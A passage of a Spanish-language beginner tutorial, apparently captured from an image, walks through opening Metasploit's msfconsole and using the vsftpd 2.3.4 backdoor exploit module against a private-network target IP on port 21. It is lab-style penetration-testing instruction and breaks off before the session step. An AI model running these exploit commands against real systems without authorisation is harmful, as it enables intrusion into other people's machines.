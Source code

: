 ### ✅ 4️⃣ Abrir Metasploit

✅ Simple:

```bash
msfconsole
```

✅ Salida:

```
msf6 >
```

¡Ya estás dentro!

---

### ✅ 5️⃣ Comandos básicos en msfconsole

✅ Ver ayuda:

```bash
help
```

✅ Buscar exploit:

```bash
search vsftpd
```

✅ Usar exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

✅ Ver opciones:

```bash
show options
```

✅ Configurar IP objetivo:

```bash
set RHOSTS 192.168.1.10
```

✅ Configurar puerto:

```bash
set RPORT 21
```

✅ Ejecutar:

```bash
run
```

✅ Ver sesiones activas:
